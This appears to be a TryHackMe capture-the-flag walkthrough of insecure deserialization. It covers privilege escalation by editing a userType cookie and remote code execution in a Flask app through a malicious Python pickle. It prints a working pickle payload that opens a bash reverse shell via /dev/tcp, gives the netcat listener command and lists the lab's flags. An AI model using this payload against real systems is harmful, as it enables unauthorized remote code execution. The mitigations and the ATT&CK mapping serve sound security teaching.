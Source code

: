 # 🐍 Insecure Deserialization (Cookie Manipulation & Remote Code Execution) – TryHackMe Walkthrough

## 📝 Overview

**Insecure Deserialization** occurs when applications deserialize untrusted data without validation. This can allow attackers to manipulate serialized objects, escalate privileges, or even achieve **Remote Code Execution (RCE)**.

This TryHackMe lab demonstrates two scenarios:

1. **Cookie Manipulation** – Modifying base64-encoded cookies to escalate privileges.
2. **Remote Code Execution via Python Pickle** – Crafting a malicious Pickle payload to gain a reverse shell.

---

## 🎯 Lab Objectives

* **Part 1 – Cookies**

  * Inspect and decode base64-encoded cookies to retrieve sensitive data.
  * Modify a `userType` cookie to escalate privileges and access the admin dashboard.

* **Part 2 – Remote Code Execution**

  * Craft a malicious Python Pickle payload to exploit insecure deserialization.
  * Achieve RCE and retrieve the final flag.

---

## 🛠 Steps to Exploit

### **Part 1 – Cookie Manipulation**

#### ✅ 1. Inspecting Cookies

* Created a new account and navigated to the **myprofile** page.
* Opened **Developer Tools → Storage → Cookies** (Firefox).
* Identified two cookies:

  * One base64-encoded
  * One plaintext (`userType`)

---

#### ✅ 2. Retrieving the First Flag

* Decoded the base64-encoded cookie (e.g., via [CyberChef](https://gchq.github.io/CyberChef/) or `base64 -d`) and found the first flag:

```
THM{good_old_base64_huh}
```

---

#### ✅ 3. Privilege Escalation via Cookie Modification

* Double-clicked the `userType` cookie and changed its value from `user` to `admin`.
* Navigated to **http\://MACHINE\_IP/admin** to access the admin dashboard.

**Flag Retrieved:**

```
THM{heres_the_admin_flag}
```

---

### **Part 2 – Remote Code Execution (Python Pickle)**

#### ✅ 1. Understanding the Vulnerability

* The Flask app sets an **`encodedPayload`** cookie when visiting **"Exchange your vim"**.
* On **"Provide your feedback!"**, the app **decodes & deserializes** the cookie with:

```python
pickle.loads(base64.b64decode(cookie))
```

* This allows execution of arbitrary Python objects during deserialization.

---

#### ✅ 2. Crafting a Malicious Pickle Payload

1. **Start a netcat listener**:

```bash
nc -lvnp 4444
```

2. **Create a Python script (`rce.py`)** to generate the payload:

```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "bash -i >& /dev/tcp/YOUR_TRYHACKME_VPN_IP/4444 0>&1"',))

print(base64.b64encode(pickle.dumps(RCE())))
```

3. **Run the script**:

```bash
python3 rce.py
```

4. **Copy the output** (example):

```
gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjF... (truncated)
```

---

#### ✅ 3. Injecting the Payload

* Replaced the `encodedPayload` cookie in the browser with the malicious base64 string.
* Refreshed the **"Provide your feedback!"** page.
* The page hung – indicating the payload executed.

---

#### ✅ 4. Getting the Final Flag

* Switched to the reverse shell session in netcat:

```bash
ls
cat flag.txt
```

**Flag Retrieved:**

```
4a69a7ff9fd68
```

---

## ✅ Key Takeaways

* **Root Causes:**

  * Cookies stored sensitive information without proper encryption or integrity checks.
  * Flask app deserialized untrusted data using `pickle.loads()` without validation.

* **Impact:**

  * Unauthorized access to admin functionality.
  * Full Remote Code Execution on the server.

* **Mitigation:**

  * Use **signed and encrypted cookies** (Flask’s `itsdangerous` or JWT).
  * Avoid `pickle` for untrusted data; use safe serialization like JSON.
  * Validate and sanitize all user-controlled inputs.

---

## 🗺 MITRE ATT\&CK Mapping

| **Technique**                         | **ID**                                                      | **Description**                                                  |
| ------------------------------------- | ----------------------------------------------------------- | ---------------------------------------------------------------- |
| **Exploitation of Public-Facing App** | [T1190](https://attack.mitre.org/techniques/T1190/)         | Exploiting web app misconfiguration to gain unauthorized access. |
| **Command and Scripting Interpreter** | [T1059.006](https://attack.mitre.org/techniques/T1059/006/) | Executing commands via Python Pickle deserialization (RCE).      |
| **Valid Accounts**                    | [T1078](https://attack.mitre.org/techniques/T1078/)         | Using manipulated cookies to escalate privileges to admin.       |


